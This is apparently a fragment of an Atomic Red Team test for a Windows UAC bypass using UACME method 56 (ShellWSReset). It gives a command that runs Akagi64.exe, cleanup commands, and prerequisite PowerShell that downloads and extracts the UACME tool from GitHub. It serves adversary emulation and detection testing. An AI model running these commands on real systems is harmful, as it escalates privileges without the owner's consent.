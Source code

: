 UCM Method:	UacMethodShellWSReset

https://github.com/hfiref0x/UACME

**Supported Platforms:** Windows


**auto_generated_guid:** 235ec031-cd2d-465d-a7ae-68bab281e80e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| uacme_exe | Path to uacme executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;uacme&#92;56 Akagi64.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{uacme_exe}"
```

#### Cleanup Commands:
```cmd
powershell Stop-Process -Name cmd -Force -ErrorAction Ignore
powershell Stop-Process -Name mmc -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: UACME executable must exist on disk at specified location ("#{uacme_exe}")
##### Check Prereq Commands:
```powershell
$tempPath = cmd /c echo #{uacme_exe}
if (Test-Path "$tempPath") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1548.002/bin/uacme.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" "PathToAtomicsFolder\..\ExternalPayloads\uacme" -Force
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" -Force
```




<br/>
<br/>
